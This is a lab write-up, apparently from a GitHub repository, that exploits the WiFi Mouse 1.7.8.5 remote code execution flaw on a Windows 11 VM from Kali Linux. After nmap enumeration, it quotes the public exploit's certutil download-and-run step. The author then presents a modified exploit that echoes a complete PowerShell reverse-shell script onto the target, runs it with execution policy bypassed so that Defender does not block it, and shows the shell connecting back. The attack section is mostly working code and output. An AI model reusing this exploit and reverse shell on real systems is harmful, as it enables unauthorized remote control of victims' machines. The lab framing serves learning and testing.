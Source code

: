 # WiFi Mouse 1.7.8.5 - Remote Code Execution

Lab to learn more on the [WiFi Mouse 1.7.8.5 - Remote Code Execution](https://www.exploit-db.com/exploits/50972) exploit.

## Lab environment

**Target**

- VM running Microsoft Windows 11 Pro - 10.0.22000 N/A Build 22000
- Windows Defender - enabled
- WiFi Mouse 1.7.8.5 [download](https://www.exploit-db.com/apps/46b494c56615f48dd09065108d604762-MouseServer.exe)
- Windows Firewall - Allow traffic for `MouseServer.exe` - ref. TCP Port 1978
- IP 172.20.63.92

**Attacker**

- VM Kali Linux
- IP 172.20.61.115

## Enumeration
---

Nmap finds port `1978/tcp` open, but does not recognize the service using it.

```nginx
$ nmap -p 1978 -v -sC -sV -oA nmap/WiFiMouse 172.20.63.92
...
ORT     STATE SERVICE VERSION
1978/tcp open  unisql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|_    system windows 6.2
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1978-TCP:V=7.93%I=7%D=10/16%Time=634C8FA3%P=x86_64-pc-linux-gnu%r(N
SF:ULL,13,"system\x20windows\x206\.2\n")%r(GenericLines,13,"system\x20wind
SF:ows\x206\.2\n")%r(GetRequest,13,"system\x20windows\x206\.2\n")%r(HTTPOp
SF:tions,13,"system\x20windows\x206\.2\n")%r(RTSPRequest,13,"system\x20win
SF:dows\x206\.2\n")%r(RPCCheck,13,"system\x20windows\x206\.2\n")%r(DNSVers
SF:ionBindReqTCP,13,"system\x20windows\x206\.2\n")%r(DNSStatusRequestTCP,1
SF:3,"system\x20windows\x206\.2\n")%r(Help,13,"system\x20windows\x206\.2\n
SF:")%r(SSLSessionReq,13,"system\x20windows\x206\.2\n")%r(TerminalServerCo
SF:okie,13,"system\x20windows\x206\.2\n")%r(TLSSessionReq,13,"system\x20wi
SF:ndows\x206\.2\n")%r(Kerberos,13,"system\x20windows\x206\.2\n")%r(SMBPro
SF:gNeg,13,"system\x20windows\x206\.2\n")%r(X11Probe,13,"system\x20windows
SF:\x206\.2\n")%r(FourOhFourRequest,13,"system\x20windows\x206\.2\n")%r(LP
SF:DString,13,"system\x20windows\x206\.2\n")%r(LDAPSearchReq,13,"system\x2
SF:0windows\x206\.2\n")%r(LDAPBindReq,13,"system\x20windows\x206\.2\n")%r(
SF:SIPOptions,13,"system\x20windows\x206\.2\n")%r(LANDesk-RC,13,"system\x2
SF:0windows\x206\.2\n")%r(TerminalServer,13,"system\x20windows\x206\.2\n")
SF:%r(NCP,13,"system\x20windows\x206\.2\n")%r(NotesRPC,13,"system\x20windo
SF:ws\x206\.2\n")%r(JavaRMI,13,"system\x20windows\x206\.2\n")%r(WMSRequest
SF:,13,"system\x20windows\x206\.2\n")%r(oracle-tns,13,"system\x20windows\x
SF:206\.2\n")%r(ms-sql-s,13,"system\x20windows\x206\.2\n")%r(afp,13,"syste
SF:m\x20windows\x206\.2\n")%r(giop,13,"system\x20windows\x206\.2\n");
...
```
I took the opportunity to submit the fingerprint to nmap. I hope they can use it to update their database. This could facilitate the software identification.

Another approach to identify what could be running on this port is checking on the internet. If we search for `port 1978 exploit` we see a few links related to **mouse** exploit.

![Internet search](images/WiFiMouse_internet_search.png)

## Exploitation
---

[WiFi Mouse 1.7.8.5 - Remote Code Execution](https://www.exploit-db.com/exploits/50972) exploit.

Reading the exploit available on exploit-db, we can understand that the code will try to open `cmd.exe` on the target and write a command to download a payload, and then run it.

```python
def exploit():
	...
	openCMD()
	...
	SendString("certutil.exe -urlcache -f http://" + lhost + "/" + payload + " C:\\Windows\\Temp\\" + payload)
	SendReturn()
	...
	SendString("C:\\Windows\\Temp\\" + payload)
	SendReturn()
	...
```
However, on all my attempts to execute it (with different payloads), Windows Defender blocked the downloads.

![Defender](images/WiFiMouse_defender.png)

Instead of trying to disable the antivirus, I decided to see what I could do without touching Defender.


After trying some options, an interesting idea came to my mind. I would try to use `echo`, directly on the target, to write a PowerShell script during the exploit execution. The new `.ps1` script would open a reverse shell with our attacker machine.

```python
def exploit():
	...
	openCMD()
	...
	SendString("echo $c = New-Object System.Net.Sockets.TCPClient('" + lhost + "','" + lport + "'); > C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	SendString("echo $I = $c.GetStream();[byte[]]$U = 0..(2-shl15)^|%{0}; >> C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	SendString("echo $U = ([text.encoding]::ASCII).GetBytes(\"Copyright (C) 2021 Microsoft Corporation. All rights reserved.`n`n\"); >> C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	SendString("echo $I.Write($U,0,$U.Length); $U = ([text.encoding]::ASCII).GetBytes((Get-Location).Path + '^>'); $I.Write($U,0,$U.Length); >> C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	SendString("echo while(($k = $I.Read($U, 0, $U.Length)) -ne 0){;$D = (New-Object System.Text.UTF8Encoding).GetString($U,0, $k); >> C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	SendString("echo $a = (iex $D 2^>^&1 ^| Out-String ); $r  = $a + (pwd).Path + '^> '; $m = ([text.encoding]::ASCII).GetBytes($r); >> C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	SendString("echo $I.Write($m,0,$m.Length); $I.Flush()}; $c.Close(); >> C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	...
	SendString("powershell -nop -exec Bypass -File C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	...
```

During playing with it, I found out that `echo` need special escape (^) to print a few special characters (& | < > ^).

```powershell
C:\>echo foo | bar
'bar' is not recognized as an internal or external command,
operable program or batch file.

C:\>echo foo ^| bar
foo | bar
```

I also noticed that, the Microsoft public documentation on the [echo](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/echo) command was missing the ampersand (&) character on the list of characters that needed especial escaping. I [open an issue](https://github.com/MicrosoftDocs/windowsserverdocs/issues/6814) on the documentation to suggest the change.


With the code ready, I openned a listner on Kali.

```nginx
$ nc -nlvp 4444 
listening on [any] 4444 ...
```

Then I executed the script

```nginx
$ python WiFiMouse_exploit.py 172.20.63.92 172.20.61.115 4444
[+] 3..2..1..
[+] *Wait while writing payload*
[+] Payload retrieved
[+] Invoking payload - Check Your Listener!
[-] Removing payload
[+] Done!
```
While the script was executing, we could see the following on the target screen (in my lab I have access to the target).

![CMD](images/WiFiMouse_cmd.png)

Back to Kali, we could see that we have a shell

```nginx
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.20.61.115] from (UNKNOWN) [172.20.63.92] 51596
Copyright (C) 2021 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\MouseServer.exe> 
```

## Final Considerations

Probably, there are many options to exploit this vulnerabiliy. This is only one of them :-) 

You can find the script I used [here](scripts/WiFiMouse_exploit.py)

## Links

- [Building a Vulnerable Box: RemoteMouse](https://warroom.rsmus.com/building-a-vulnerable-box-remotemouse/)
- [PowerShell Execution Argument Obfuscation (& How It Can Make Detection Easier!)](https://www.danielbohannon.com/blog-1/2017/3/12/powershell-execution-argument-obfuscation-how-it-can-make-detection-easier)
- [Analysis of a Threat: PowerShell Malicious Activity](https://www.blumira.com/analysis-of-a-threat-powershell-malicious-activity/)